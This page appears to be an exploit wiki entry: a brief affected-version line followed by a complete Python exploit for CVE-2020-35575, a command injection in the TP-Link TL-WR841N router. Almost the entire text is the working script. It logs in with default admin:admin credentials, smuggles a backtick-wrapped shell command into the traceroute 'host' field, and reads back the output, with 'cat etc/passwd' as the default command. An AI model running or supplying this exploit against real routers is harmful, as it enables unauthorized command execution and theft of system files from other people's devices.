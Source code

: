 <languages /> <translate>

影響版本
--------

</translate> Version: TL-WR841N 0.9.1 4.0

EXP
---

    # Exploit Title: TP-Link TL-WR841N - Command Injection
    # Date: 2020-12-13
    # Exploit Author: Koh You Liang
    # Vendor Homepage: https://www.tp-link.com/
    # Software Link: https://static.tp-link.com/TL-WR841N(JP)_V13_161028.zip
    # Version: TL-WR841N 0.9.1 4.0
    # Tested on: Windows 10
    # CVE : CVE-2020-35575

    import requests
    import sys
    import time

    try:
        _ = sys.argv[2]
        payload = ' '.join(sys.argv[1:])
    except IndexError:
        try:
            payload = sys.argv[1]
        except IndexError:
            print("[*] Command not specified, using the default `cat etc/passwd=`")
            payload = 'cat etc/passwd'

    # Default credentials is admin:admin - replace with your own
    cookies = {
        'Authorization': 'Basic YWRtaW46YWRtaW4='
    }

    headers = {
        'Host': '192.168.0.1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko=/20100101 Firefox/84.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'text/plain',
        'Content-Length': '197',
        'Origin': 'http://192.168.0.1',
        'Connection': 'close',
        'Referer': 'http://192.168.0.1/mainFrame.htm',
    }

    data1 = \
    '''[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,8\r\nmaxHopCount=20\r\ntimeout=50\r\nnumberOfTries=1\r\nhost="`{}`"\r\ndataBlockSize=64\r\nX_TP_ConnName=ewan_ipoe_d\r\ndiagnosticsState=Requested\r\nX_TP_HopSeq=0\r\n'''.format(payload)
    response1 = requests.post('http://192.168.0.1/cgi?2', headers=headers, cookies=cookies, data=data1, verify=False)
    print('[+] Sending payload...')

    try:
        response1.text.splitlines()[0]
    except IndexError:
        sys.exit('[-] Cannot get response. Please check your cookie.')
    if response1.text.splitlines()[0] != '[error]0':
        sys.exit('[*] Router/Firmware is not vulnerable.')

    data2 = '[ACT_OP_TRACERT#0,0,0,0,0,0#0,0,0,0,0,0]0,0\r\n'
    response2 = requests.post('http://192.168.0.1/cgi?7', headers=headers, cookies=cookies, data=data2, verify=False)
    print('[+] Receiving response from router...')
    time.sleep(0.8) # Buffer time for traceroute to succeed

    data3 = '''[TRACEROUTE_DIAG#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\ndiagnosticsState\r\nX_TP_HopSeq\r\nX_TP_Result\r\n'''
    response3 = requests.post('http://192.168.0.1/cgi?1', headers=headers, cookies=cookies, data=data3, verify=False)

    if '=:' in response3.text.splitlines()[3]:
        print('[-] Command not supported.')
    else:
        print('[+] Exploit successful!')
        for line_number, line in enumerate(response3.text.splitlines()):
            try:
                if line_number == 3:
                    print(line[12:])
                if line_number > 3 and line != '[error]0':
                    print(line)
                    if 'not known' in line:
                        break
            except IndexError:
                break
